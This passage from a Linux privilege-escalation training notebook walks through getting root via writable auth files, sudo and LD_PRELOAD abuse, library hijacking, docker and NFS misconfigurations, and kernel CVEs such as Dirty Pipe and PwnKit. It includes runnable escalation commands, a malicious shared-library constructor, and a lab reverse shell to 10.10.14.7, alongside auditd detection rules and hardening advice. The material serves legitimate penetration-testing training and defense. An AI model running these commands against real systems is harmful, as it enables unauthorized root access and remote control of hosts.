`/etc/passwd` historically stored password hashes in its second field. Modern systems put an `x` there (meaning "hash is in `/etc/shadow`"), **but the kernel still honours a hash placed directly in `/etc/passwd`**. If you can write `/etc/passwd`, add a second root user with a password you know:

```bash
# Generate a known hash for password "pwned":
$ openssl passwd -1 -salt xyz pwned
$1$xyz$XXXXXXXXXXXXXXXXXXXXXX.

# Append a UID-0 user. Field order: name:hash:uid:gid:gecos:home:shell
$ echo 'hacker:$1$xyz$XXXXXXXXXXXXXXXXXXXXX.:0:0:root:/root:/bin/bash' >> /etc/passwd

# Switch to it:
$ su hacker
Password: pwned
root@box:~# id
uid=0(root) gid=0(root) groups=0(root)
```

The `0:0` makes this a UID-0/GID-0 account — a full root peer. This is the payoff for a huge number of write primitives (SUID `tee`/`dd`/`cp`, `cap_dac_override`, writable `/etc/passwd`).

Concrete conversions:

```bash
# SUID cp: overwrite passwd with a version you prepared
$ cp /tmp/passwd.evil /etc/passwd

# SUID tee: append via pipe
$ echo 'hacker:$1$xyz$...:0:0::/root:/bin/bash' | tee -a /etc/passwd

# SUID dd: write a crafted file
$ dd if=/tmp/passwd.evil of=/etc/passwd

# cap_dac_override vim: just edit it, checks bypassed
$ vim.basic /etc/passwd
```

### 8.2 Writable /etc/shadow → crack or replace root's hash

If you can *read* shadow (via `cap_dac_read_search`, SUID reader, or a readable backup), extract root's hash and crack it offline (see the password-attacks notebook — `john`/`hashcat`). If you can *write* shadow, replace root's hash with one you know:

```bash
$ mkpasswd -m sha-512 pwned          # or: openssl passwd -6 pwned
$6$...$....
# put that hash in root's line, field 2, of /etc/shadow, then: su root
```

### 8.3 Writable root cron / sudoers / SSH keys

Any of these write targets is equivalent to root:

- **`/etc/sudoers` or `/etc/sudoers.d/*` writable:** add `alice ALL=(ALL) NOPASSWD: ALL`, then `sudo -i`.
- **Root's `~/.ssh/authorized_keys` writable (or `/root` writable):** append your public key, `ssh root@localhost`.
- **A root-owned script that root runs writable:** covered in cron/timer/PATH parts.

```bash
# sudoers.d drop-in (validate syntax or you can lock sudo!):
$ echo 'alice ALL=(ALL) NOPASSWD: ALL' > /etc/sudoers.d/alice
$ sudo -i          # instant root

# root SSH key:
$ mkdir -p /root/.ssh && echo "$(cat ~/.ssh/id_ed25519.pub)" >> /root/.ssh/authorized_keys
$ ssh root@127.0.0.1
```

```mermaid
flowchart TD
    A[Arbitrary file WRITE as root] --> B[/etc/passwd: add uid0 user]
    A --> C[/etc/shadow: replace root hash]
    A --> D[/etc/sudoers.d/x: NOPASSWD ALL]
    A --> E[/root/.ssh/authorized_keys: add key]
    F[Arbitrary file READ as root] --> G[/etc/shadow -> crack]
    F --> H[/root/.ssh/id_rsa -> ssh in]
    B --> Z[su / sudo / ssh -> root]
    C --> Z
    D --> Z
    E --> Z
    G --> Z
    H --> Z
```

**Detection (woven):** writes to `/etc/passwd`, `/etc/shadow`, `/etc/sudoers*`, and `authorized_keys` are the highest-value FIM/auditd rules on any Linux host; a new UID-0 line in `/etc/passwd` should page someone.

---

## Part 9: sudo Misconfigurations

`sudo` is *designed* to grant controlled root, which makes its misconfigurations a first-class escalation surface. Start every assessment with:

```bash
$ sudo -l
Matching Defaults entries for alice on box:
    env_reset, mail_badpass, secure_path=/usr/sbin:/usr/bin:/sbin:/bin

User alice may run the following commands on box:
    (root) NOPASSWD: /usr/bin/less /var/log/syslog
    (root) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /usr/bin/find
```

`sudo -l` lists what you may run as whom, and whether a password is needed (`NOPASSWD`). Every line is a potential escape.

### 9.1 GTFOBins for sudo

If you can `sudo` a binary that can spawn a shell, run a command, or read/write files, you're root. GTFOBins has a dedicated **Sudo** function for each binary. Examples:

```bash
$ sudo vim -c ':!/bin/sh'            # shell from vim, running as root
$ sudo find . -exec /bin/sh \; -quit
$ sudo less /etc/profile             # then type: !/bin/sh
$ sudo awk 'BEGIN{system("/bin/sh")}'
$ sudo env /bin/sh
$ sudo python3 -c 'import os;os.system("/bin/sh")'
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Even seemingly-restricted rules leak. `sudo less /var/log/syslog` looks harmless, but `less` has a shell escape (`!sh`), so it's root. `sudo vim` — full shell. The rule that pins a binary to a *specific file argument* is safer but still often bypassable (e.g. `less` can open another file with `:e`).

### 9.2 env_keep and LD_PRELOAD

If `sudo -l` shows `env_keep+=LD_PRELOAD` (or `LD_LIBRARY_PATH`), sudo will **preserve those environment variables** into the root command — and the dynamic linker will load your library into a root process. This is a clean root even if the allowed command is totally benign.

```bash
# sudo -l shows:  Defaults env_keep += "LD_PRELOAD"
# 1) Build a tiny shared library whose constructor drops privilege and execs a shell:
$ cat > /tmp/x.c <<'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0); setuid(0);
    system("/bin/bash -p");
}
EOF
$ gcc -fPIC -shared -nostartfiles -o /tmp/x.so /tmp/x.c

# 2) Run ANY sudo-allowed command with LD_PRELOAD pointing at it:
$ sudo LD_PRELOAD=/tmp/x.so apache2      # or find, or whatever you may sudo
root@box:~# id
uid=0(root) ...
```

`_init()` runs as the library loads, before the target program's `main` — so `apache2` never really starts; our constructor fires as root and spawns a shell. `LD_LIBRARY_PATH` is exploited similarly by shadowing a library the sudo'd binary loads.

### 9.3 sudo CVEs

Sometimes the sudo *binary itself* is vulnerable regardless of rules:

- **CVE-2019-14287 (`sudo -u#-1`)** — if a rule allows running as `(ALL, !root)` or lists a user, `sudo -u#-1 command` (or `-u#4294967295`) is treated as UID 0 due to a signedness bug, running the command as root even though root was excluded:

  ```bash
  # Rule: alice ALL=(ALL, !root) /usr/bin/id
  $ sudo -u#-1 id
  uid=0(root)   # excluded root, got root anyway
  ```

- **CVE-2021-3156 (Baron Samedit)** — a heap overflow in sudo's command-line parsing reachable by *any local user regardless of sudoers*, via `sudoedit -s '\' $(python3 -c 'print("A"*1000)')`. Affects sudo < 1.9.5p2. Public exploits give a root shell.

Check the version: `sudo --version` (or `sudo -V | head -1`). If it's in the vulnerable range and no rules help you, the CVE might.

| sudo finding | Exploit |
|--------------|---------|
| `sudo` any shell-capable binary | GTFOBins Sudo one-liner |
| `NOPASSWD` on `vim`/`less`/`find`/`awk`/`python` | shell escape |
| `env_keep += LD_PRELOAD` | malicious `.so` constructor |
| `env_keep += LD_LIBRARY_PATH` | shadow a loaded library |
| version < 1.8.28 with `!root` rule | CVE-2019-14287 `-u#-1` |
| version < 1.9.5p2 | CVE-2021-3156 Baron Samedit |

**Blue team relevance:** log and alert on `sudo` invocations with `LD_PRELOAD`/`LD_LIBRARY_PATH` set, on `sudo -u#`-style UID tricks, and keep sudo patched. `sudo -l` output is your own best audit tool — run it on your fleet.

---

## Part 10: LD_PRELOAD, LD_LIBRARY_PATH and Shared-Object Hijacking (General Case)

The sudo case above is one instance of a broader family: hijacking the **dynamic linker** (`ld.so`). Any time a privileged process loads a shared library you can influence, you get code execution in that process's context.

### 10.1 How dynamic loading is abusable

When a dynamically-linked program starts, `ld.so` resolves its needed libraries by searching: `LD_PRELOAD` (force-loaded first), `LD_LIBRARY_PATH`, the RPATH/RUNPATH baked into the binary, `/etc/ld.so.cache`, then default dirs. Attacker leverage exists at several of these:

- **`LD_PRELOAD`** honoured for a privileged process (SUID binaries *ignore* it for security **unless** the library is root-owned and in a standard path — but sudo `env_keep` re-enables it; see Part 9).
- **Writable library** that a root process loads → overwrite it with a trojan `.so`.
- **Writable RPATH directory** or a missing library the loader searches → drop your `.so` where it looks.

### 10.2 Finding hijackable libraries

```bash
# What libraries does a root-run binary load, and from where?
$ ldd /opt/app/service
    libcustom.so => /opt/app/lib/libcustom.so (0x00007f...)
$ ls -ld /opt/app/lib          # is the dir or the .so writable by me?
drwxrwxr-x 2 root devs 4096 ... /opt/app/lib   # group devs writable

# Trace what a running root process opens, to spot a missing/searched lib:
$ strace -f -e openat /opt/app/service 2>&1 | grep -E '\.so'
openat(AT_FDCWD, "/opt/app/lib/libcustom.so", O_RDONLY) = 3
```

If `libcustom.so` (or its directory) is writable and `service` runs as root, replace it with a malicious library exporting the same symbols plus a constructor:

```c
// evil_libcustom.c — keep real symbols stubbed, add a constructor
__attribute__((constructor)) void pwn() {
    setuid(0); setgid(0);
    system("cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash");
}
```

```bash
$ gcc -fPIC -shared -o /opt/app/lib/libcustom.so evil_libcustom.c
# wait for root to run service, then:
$ /tmp/rootbash -p
```

**Detection (woven):** unexpected library loads, writes to library directories, and processes with `LD_PRELOAD`/`LD_LIBRARY_PATH` in their environment (`/proc/PID/environ`) are strong signals. Library dirs should be root-owned and root-writable only.

---

## Part 11: NFS `no_root_squash`, Docker Group, and Other Group/Mount Abuses

Not every root path is a bug in a binary — some are misconfigured trust in the *system* configuration.

### 11.1 NFS no_root_squash

By default, NFS **squashes** root: a client mounting a share and acting as root is mapped to `nobody` on the server, so root on the client isn't root on the server's files. `no_root_squash` disables that protection. If a share is exported `no_root_squash` and you are (or can become) root on a machine you control, you can create a **SUID root binary** on the share that will be SUID root on the server.

```bash
# On the target (or via showmount from your box):
$ cat /etc/exports
/srv/share  *(rw,no_root_squash)

# From an attacker machine where YOU are root, mount it:
# attacker# mount -t nfs target:/srv/share /mnt/nfs
# attacker# cp /bin/bash /mnt/nfs/rootbash
# attacker# chown root:root /mnt/nfs/rootbash && chmod 4755 /mnt/nfs/rootbash

# Back on the target as your low-priv user, the file is SUID root:
$ /srv/share/rootbash -p
rootbash-5.1# id
uid=1000(alice) euid=0(root)
```

The trick works because with `no_root_squash`, the `chown root` + SUID you did as root on the attacker side is honoured on the server's filesystem.

### 11.2 The `docker` group = root

If your user is in the `docker` group (`id` shows `docker`), you have effective root, because you can run a container that mounts the host filesystem:

```bash
$ id | grep -o docker
docker
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# / on the host is now /mnt in the container as root:
# id
uid=0(root)
# or add yourself to sudoers / read /etc/shadow directly
```

Similar group-based wins: **`lxd`/`lxc`** (mount host disk in a privileged container), **`disk`** (raw read/write of block devices → `debugfs /dev/sda1` to read `/etc/shadow` or edit files), **`shadow`** (read `/etc/shadow`), **`adm`** (read logs, sometimes creds), **`video`/`kvm`** (situational).

| Group / mount finding | Why it's root | Exploit |
|-----------------------|---------------|---------|
| `docker` group | container can mount host `/` | `docker run -v /:/mnt ... chroot /mnt` |
| `lxd`/`lxc` group | privileged container | import alpine image, mount host disk |
| `disk` group | raw block device access | `debugfs /dev/sda1` → read/write any file |
| `shadow` group | read `/etc/shadow` | dump hashes, crack offline |
| NFS `no_root_squash` | client root honoured | SUID binary on the share |
| writable `/etc/fstab` + mount trigger | control mounts | mount with `suid`, plant SUID |

**Blue team relevance:** membership in `docker`/`lxd`/`disk` should be treated as equivalent to root membership in access reviews; `no_root_squash` exports are an audit finding on sight; `root_squash` should be the default.

---

## Part 12: Kernel and Service Exploits

When configuration is clean, a *code* vulnerability in the kernel or a root-running system service can still hand you root. These are the "last resort but sometimes the only resort" paths, and they need care because kernel exploits can panic a box.

### 12.1 Fingerprint first

```bash
$ uname -a
Linux box 5.8.0-53-generic #60-Ubuntu ... x86_64 GNU/Linux
$ cat /etc/os-release        # distro + version
$ cat /proc/version
```

The kernel version + distro tells you which public exploits *might* apply. Do not fire kernel exploits blindly — match the exact version, prefer ones tested on your distro, and understand the crash risk.

### 12.2 Headline kernel/service exploits

**Dirty COW (CVE-2016-5195)** — a race in copy-on-write of memory mappings lets you write to read-only files you can only read, e.g. overwrite `/etc/passwd` or a SUID binary. Affects kernels ~2.6.22 through 4.8.3.

```bash
# classic dirtyc0w.c overwrites a file you can read but not write:
$ gcc -pthread dirty.c -o dirty -lcrypt
$ ./dirty                       # patches /etc/passwd with a new root user 'firefart'
$ su firefart
```

**Dirty Pipe (CVE-2022-0847)** — a pipe/page-cache flaw (kernels 5.8–5.16.11/5.15.25/5.10.102) lets an unprivileged user overwrite data in read-only files, including SUID binaries and `/etc/passwd`. Extremely reliable, no crash risk:

```bash
$ gcc dirtypipe.c -o dp
$ ./dp /usr/bin/su            # hijacks a SUID binary to spawn a root shell
# id -> uid=0
```

**OverlayFS (CVE-2021-3493, CVE-2023-0386)** — Ubuntu-specific overlay filesystem bugs allowing SUID-to-root via crafted file copies in an unprivileged user namespace. Very common on HackTheBox Ubuntu boxes.

**PwnKit (CVE-2021-4034)** — memory corruption in **polkit's `pkexec`**, a SUID-root binary present on nearly every Linux desktop/server. Exploitable by *any* local user regardless of configuration, no auth. One of the most impactful local-root bugs in years:

```bash
$ ls -l /usr/bin/pkexec
-rwsr-xr-x 1 root root ... /usr/bin/pkexec
$ gcc cve-2021-4034.c -o pwnkit && ./pwnkit
# id -> uid=0(root)
```

**Sudo Baron Samedit (CVE-2021-3156)** — covered in Part 9; sudo, not kernel, but same "single CVE, instant root" category.

| Exploit | CVE | Affected | Risk |
|---------|-----|----------|------|
| Dirty COW | 2016-5195 | kernel 2.6.22–4.8.3 | moderate (race, can be flaky) |
| Dirty Pipe | 2022-0847 | kernel 5.8–5.16.x | low (very reliable) |
| OverlayFS | 2021-3493 / 2023-0386 | Ubuntu kernels | low–moderate |
| PwnKit | 2021-4034 | polkit `pkexec`, most distros | low (very reliable) |
| Baron Samedit | 2021-3156 | sudo < 1.9.5p2 | low |

### 12.3 Where to get and vet exploits

Use `searchsploit` (from the exploitation notebook) offline, and the linux-exploit-suggester scripts to map a kernel to candidate CVEs:

```bash
$ ./linux-exploit-suggester.sh          # reads uname, lists likely CVEs with links
$ searchsploit dirty pipe
$ searchsploit linux kernel 5.8 privilege
```

Always read the exploit source before running it on any system you care about — public "exploits" are a common malware vector, and a kernel exploit that misfires can panic the host. On a client engagement, get explicit sign-off before running kernel exploits, and prefer a misconfiguration win if one exists.



---

## Part 13: Fully Worked Lab — Chaining Three Findings to Root

This lab walks a realistic box end to end: you land as `www-data` from a web exploit and escalate to root. It exercises enumeration → SUID → cron/PATH → verification, showing the exact commands and the output you'd actually see. The target is a lab VM you own; adapt IPs/paths to your setup.

### Step 0 — Situational awareness

```bash
www-data@lab:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@lab:/var/www/html$ uname -a
Linux lab 5.4.0-42-generic #46-Ubuntu ... x86_64
www-data@lab:/var/www/html$ sudo -l
[sudo] password for www-data:      # no password known, dead end for now
```

Upgrade to a proper TTY so editors/`su` behave:

```bash
www-data@lab:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@lab:/$ export TERM=xterm
# Ctrl-Z, then on Kali:  stty raw -echo; fg  , then: reset
```

### Step 1 — Enumerate escalation surface

```bash
# SUID
www-data@lab:/$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/opt/report/genreport        # <- unusual, custom binary
# Capabilities
www-data@lab:/$ getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
# Cron (watch with pspy)
www-data@lab:/$ wget -q http://10.10.14.7/pspy64 -O /tmp/pspy && chmod +x /tmp/pspy
www-data@lab:/$ /tmp/pspy -pf -i 1000
2026/.. CMD: UID=0 PID=1120 | /bin/sh -c /opt/report/collect.sh
2026/.. CMD: UID=0 PID=1121 | /bin/bash /opt/report/collect.sh
```

Two leads: a custom SUID `genreport`, and a root cron running `/opt/report/collect.sh` every minute.

### Step 2 — Investigate the SUID binary (PATH hijack)

```bash
www-data@lab:/$ ls -l /opt/report/genreport
-rwsr-xr-x 1 root root 16904 ... /opt/report/genreport
www-data@lab:/$ strings /opt/report/genreport | grep -iE 'system|/|report'
/opt/report/collect.sh
date
system
# It calls `date` by bare name and runs collect.sh. Confirm at runtime:
www-data@lab:/$ ltrace /opt/report/genreport 2>&1 | grep system
system("date >> /opt/report/out.log")
```

`genreport` runs as root and calls `date` by **bare name** → PATH hijack:

```bash
www-data@lab:/$ cd /tmp
www-data@lab:/tmp$ printf '#!/bin/bash\ncp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash\n' > date
www-data@lab:/tmp$ chmod +x date
www-data@lab:/tmp$ export PATH=/tmp:$PATH
www-data@lab:/tmp$ /opt/report/genreport
www-data@lab:/tmp$ ls -l /tmp/rootbash
-rwsr-xr-x 1 root root 1183448 ... /tmp/rootbash
www-data@lab:/tmp$ /tmp/rootbash -p
rootbash-5.4# id
uid=33(www-data) euid=0(root) gid=33(www-data) egid=0(root)
```

**Root achieved via PATH hijack of a SUID binary.** If that had failed, the cron was the backup path:

### Step 3 — (Alternate) the cron path

```bash
# (checking as low-priv, before the SUID win)
www-data@lab:/$ ls -l /opt/report/collect.sh
-rwxrwxr-x 1 root staff 210 ... /opt/report/collect.sh
www-data@lab:/$ id | grep staff                # are we in staff? if yes, writable:
uid=33(www-data) ... groups=33(www-data),50(staff)
# staff-group-writable + root cron => write payload:
www-data@lab:/$ echo 'bash -i >& /dev/tcp/10.10.14.7/9001 0>&1' >> /opt/report/collect.sh
# attacker: nc -lvnp 9001  -> root shell within 60s
```

### Step 4 — Verify, stabilise, and clean up

```bash
rootbash-5.4# id && hostname && head -1 /etc/shadow
uid=33(www-data) euid=0(root) ...
lab
root:$6$....:19000:0:99999:7:::
# Verified real root (can read shadow). Now clean up what we planted:
rootbash-5.4# rm -f /tmp/date /tmp/rootbash
rootbash-5.4# # restore collect.sh if we edited it (keep the original backup!)
```

**Engagement hygiene:** on a real test, record every artefact created (`/tmp/date`, `/tmp/rootbash`, the appended cron line), the exact time, and remove them at teardown. Note the root method in your report so the client can reproduce and fix it (here: SUID binary calling `date` by relative path — fix by using `/bin/date` and dropping the SUID bit).

---

## Part 14: Detection & Defense Angle (Consolidated)

Everything above is offense; this section is the single consolidated defender's view, mapping each primitive to how you catch and prevent it. If you run blue team, these are your controls; if you run red team, these are what you must operate around.

### 14.1 Detection

- **SUID/SGID inventory drift.** Baseline `find / -perm -6000 -type f` and diff on a schedule. A new SUID file — especially a shell, interpreter, or anything in `/tmp`, `/dev/shm`, or a home dir — is a near-certain compromise indicator. Same for `getcap -r /` (capabilities are invisible to a SUID audit).
- **auditd rules** on the crown-jewel files and syscalls:

  ```
  -w /etc/passwd -p wa -k passwd_changes
  -w /etc/shadow -p wa -k shadow_changes
  -w /etc/sudoers -p wa -k sudoers_changes
  -w /etc/sudoers.d/ -p wa -k sudoers_changes
  -a always,exit -F arch=b64 -S execve -F euid=0 -F auid>=1000 -F auid!=4294967295 -k root_exec_by_user
  ```

  The last rule flags a process reaching euid=0 that was launched by a normal login user — exactly the SUID/capability/sudo-escape signature.
- **Reverse-shell and SUID-drop patterns:** `/dev/tcp/` redirections, `cp /bin/bash` + `chmod 4755`, `bash -p`, `python -c 'os.setuid(0)'`. EDR/Sysmon-for-Linux and Falco rules cover these.
- **sudo abuse:** log `sudo` invocations carrying `LD_PRELOAD`/`LD_LIBRARY_PATH`, `-u#`-style UID tricks, and any `sudo` of a shell-capable binary.
- **Cron/timer tampering:** FIM on `/etc/cron*`, `/etc/systemd/system/`, `/usr/local/bin`, and root-owned scripts; alert on writes.
- **pspy is a detection tool too:** the same process-visibility that helps attackers find crons helps defenders spot injected commands.

### 14.2 Prevention / hardening

- **Strip needless SUID bits:** audit and remove SUID from anything that doesn't strictly need it (`chmod u-s`). Prefer capabilities scoped narrowly over SUID — but grant capabilities carefully (never `cap_setuid`/`cap_dac_*` on interpreters).
- **Absolute paths in privileged scripts** and `PATH=` set explicitly; use `secure_path` in sudoers; end option parsing with `--` and use `./`-prefixed globs to kill wildcard injection.
- **Least-privilege sudo:** avoid `NOPASSWD` on shell-capable binaries; never `env_keep` `LD_*`; keep sudo patched (Baron Samedit, `-u#-1`).
- **Patch the kernel and pkexec:** Dirty Pipe, OverlayFS, PwnKit are all patched — timely updates remove whole exploit classes. Consider `hidepid`, `noexec`/`nosuid` mount options on `/tmp`, `/dev/shm`, and user-writable mounts.
- **NFS `root_squash` by default**; treat `no_root_squash` as a finding. Treat `docker`/`lxd`/`disk`/`shadow` group membership as root-equivalent in access reviews.
- **File permissions on auth files:** `/etc/passwd` 644 root, `/etc/shadow` 640 root:shadow, `/etc/sudoers` 440 — and monitor them.

---

## Part 15: Common Pitfalls

- **Forgetting `-p`.** Running a SUID shell without `-p` (or without `setuid(0)` in an interpreter) resets euid to your real UID and you stay unprivileged. If `bash` "worked" but `id` still shows your user, you dropped privilege — use `bash -p` / `setuid(0)` first.
- **Only checking SUID, never capabilities.** `find -perm -4000` misses every capability-based path. Always run `getcap -r /` too.
- **Editing a cron script but the cron never fires.** Confirm the schedule and that your write actually took (permissions, path). Use pspy to *see* it run rather than guessing.
- **Wildcard injection filenames not treated as options.** They must start with `--` and be created with `./` or quoting so `tar`/`chown` parse them as flags; a plain `touch --checkpoint=1` can error — use `touch -- './--checkpoint=1'`.
- **Firing a kernel exploit blindly.** Wrong kernel/distro = panic or nothing. Match the version, read the source, test in a matching VM, get sign-off. Prefer a misconfig win.
- **Corrupting `/etc/passwd`/`/etc/shadow`.** A malformed line can lock out logins. Keep a backup (`cp /etc/passwd /tmp/passwd.bak`) before writing, and append rather than overwrite when possible.
- **Not verifying root.** `euid=0` is root for file ops even if `whoami` prints your name; confirm by reading `/etc/shadow` or running `id`. Conversely, don't assume you failed just because the prompt didn't change.
- **Leaving artefacts.** `/tmp/rootbash`, fake PATH binaries, appended cron lines, extra `/etc/passwd` users — all must be recorded and cleaned up. A SUID root bash left in `/tmp` is a gift to the next attacker and a finding against *you*.

---

## Part 16: Final Revision / Summary

Linux privilege escalation, in one page:

- **The whole game is one of five moves:** (1) get root to run your code, (2) abuse a binary that already has root power, (3) widen an explicit sudo grant, (4) edit an auth-critical file, (5) exploit a kernel/service bug. Every technique here is an instance of one of these.
- **SUID/SGID** binaries run as their owner; a shell/interpreter/file-tool with the SUID bit is root via GTFOBins. Remember `-p` / `setuid(0)` or you lose the privilege.
- **Capabilities** are SUID's invisible sibling — `getcap -r /`. `cap_setuid` = instant root; `cap_dac_read_search`/`cap_dac_override` = read/write any file = root via `/etc/passwd`/`shadow`.
- **Cron & systemd timers** give you root-on-a-timer; a writable script, unit, or `ExecStart` target = root. Watch them with **pspy**.
- **PATH hijack** (bare-name calls in SUID/cron), **wildcard injection** (`tar`/`chown`/`rsync *`), and **LD_PRELOAD/LD_LIBRARY_PATH** all end with root running code you control.
- **File read/write primitives** convert to root through `/etc/passwd` (add a UID-0 user), `/etc/shadow`, `/etc/sudoers.d/`, or root's `authorized_keys`.
- **sudo** — always `sudo -l`. GTFOBins Sudo entries, `env_keep LD_*`, and CVEs (Baron Samedit, `-u#-1`) are the paths.
- **Group/mount abuse** — `docker`/`lxd`/`disk`/`shadow` groups and NFS `no_root_squash` are configuration-level root.
- **Kernel/service exploits** — Dirty Pipe, PwnKit, OverlayFS, Dirty COW — last resort, fingerprint first, mind the crash risk.
- **Always verify** (`id`, read shadow), **stabilise**, and **clean up**.

The enumeration chapter found the doors; this chapter opened them. The next notebooks build on this by moving from single-host root to lateral movement and domain compromise.

---

## Part 17: Cheat Sheet / Quick Reference

```bash
# ---- ENUMERATE ESCALATION SURFACE ----
find / -perm -4000 -type f 2>/dev/null            # SUID
find / -perm -6000 -type f 2>/dev/null            # SUID+SGID
getcap -r / 2>/dev/null                            # capabilities
sudo -l                                            # sudo rights
cat /etc/crontab; ls -la /etc/cron.d /etc/cron.*   # cron
systemctl list-timers --all                        # timers
/tmp/pspy64 -pf -i 1000                            # watch root processes
uname -a; cat /etc/os-release                       # kernel/distro for CVEs
id                                                 # groups: docker/lxd/disk/shadow?

# ---- SUID SHELLS (binary is SUID root) ----
bash -p
find . -exec /bin/sh -p \; -quit
vim -c ':!/bin/sh -p'
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
awk 'BEGIN{system("/bin/sh -p")}'
env /bin/sh -p

# ---- CAPABILITIES ----
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'   # cap_setuid
tar -cvf /tmp/s.tar /etc/shadow && tar -xf /tmp/s.tar -O     # cap_dac_read_search
vim.basic /etc/passwd                                        # cap_dac_override

# ---- WRITE -> ROOT ----
openssl passwd -1 -salt xyz pwned
echo 'hacker:$1$xyz$HASH:0:0:root:/root:/bin/bash' >> /etc/passwd; su hacker

# ---- CRON / PATH / WILDCARD ----
echo 'cp /bin/bash /tmp/rootbash;chmod 4755 /tmp/rootbash' >> /path/writable-cron.sh
export PATH=/tmp:$PATH   # after planting a fake bare-name binary in /tmp
touch -- './--checkpoint=1' './--checkpoint-action=exec=sh runme.sh'   # tar wildcard

# ---- SUDO ----
sudo vim -c ':!/bin/sh'
sudo LD_PRELOAD=/tmp/x.so <allowed_cmd>     # env_keep LD_PRELOAD
sudo -u#-1 <cmd>                            # CVE-2019-14287

# ---- GROUPS / NFS ----
docker run -v /:/mnt --rm -it alpine chroot /mnt sh   # docker group
# NFS no_root_squash: on your box (as root) drop a chown-root SUID bash on the share

# ---- KERNEL / SERVICE ----
./linux-exploit-suggester.sh
./pwnkit         # CVE-2021-4034 pkexec
./dp /usr/bin/su # CVE-2022-0847 Dirty Pipe

# ---- VERIFY ----
id; whoami; head -1 /etc/shadow
```

| Finding | Fastest path to root |
|---------|----------------------|
| SUID shell/interpreter | GTFOBins one-liner with `-p`/`setuid(0)` |
| `cap_setuid` | `python3 -c 'os.setuid(0);os.system("/bin/bash")'` |
| `cap_dac_*` | read shadow / write `/etc/passwd` |
| Writable root cron/timer | drop SUID-bash payload, wait |
| SUID/cron bare-name call | PATH hijack |
| Root `tar/chown *` in writable dir | wildcard injection |
| `sudo -l` shell binary | GTFOBins Sudo escape |
| `env_keep LD_PRELOAD` | malicious `.so` constructor |
| Writable `/etc/passwd` | add UID-0 user |
| `docker`/`lxd`/`disk` group | container/raw-disk to host root |
| NFS `no_root_squash` | SUID binary on the share |
| Vulnerable kernel/pkexec/sudo | Dirty Pipe / PwnKit / Baron Samedit |

---

## Part 18: Practice Labs & Resources

Every item below trains a specific primitive from this chapter — do them until each path is muscle memory.

- **TryHackMe — Linux PrivEsc** (`tryhackme.com/room/linuxprivesc`): the canonical walkthrough room covering SUID, sudo, cron, PATH, NFS, capabilities, kernel exploits — essentially this chapter as a hands-on box.
- **TryHackMe — Linux PrivEsc Arena / Common Linux Privesc**: more reps on the same primitives with different setups.
- **TryHackMe — Sudo/GTFOBins rooms** and **"Wonderland"**: sudo-escape and GTFOBins-focused practice.
- **HackTheBox — beginner Linux boxes** (e.g. *Shocker*, *Bashed*, *Cronos*, *Tabby*, *Traceback*): cron, PATH, sudo, docker-group, and writable-file paths in realistic form. Filter HTB by "Linux" + "Easy" and look for privesc-flavoured retired boxes with writeups.
- **OverTheWire — Bandit** (`overthewire.org/wargames/bandit`): SUID and cron-style challenges from first principles, great for the fundamentals.
- **pwn.college** (`pwn.college`): structured modules on Linux privilege, permissions, and the kernel — deeper mechanics if you want the theory nailed.
- **GTFOBins** (`gtfobins.github.io`): not a lab but the single most useful reference — study the SUID, Sudo, and Capabilities columns until the pattern (shell / command / file read / file write) is automatic.
- **Vulhub / VulnHub** boxes tagged privilege-escalation for self-hosted practice, and the deliberately-vulnerable **Metasploitable** for SUID/NFS reps.
- **CVE labs:** spin up matching VMs to safely fire **Dirty Pipe (CVE-2022-0847)**, **PwnKit (CVE-2021-4034)**, and **Baron Samedit (CVE-2021-3156)** — reading each exploit's source is as valuable as running it.

Practice questions to test yourself:

1. You find `/usr/bin/python3.8 cap_setuid=ep`. Write the one-liner that gives you a root shell, and explain why plain `python3 -c 'os.system("/bin/bash")'` (without `setuid`) would **not** work.
2. A root cron runs `cd /var/backups && tar czf /root/b.tgz *` and `/var/backups` is writable by you. Give the exact filenames you'd create and why they escalate to root.
3. `sudo -l` shows `(root) NOPASSWD: /usr/bin/less /var/log/auth.log`. You can only run `less` on one file — how do you still get a root shell?
4. Explain the difference between `find -perm -4000` and `getcap -r /`, and why a defender who audits only the former misses a whole escalation class.
5. You have a SUID `cp`. You cannot spawn a shell with it. Describe two different files you could write to reach root, with the exact content for one of them.
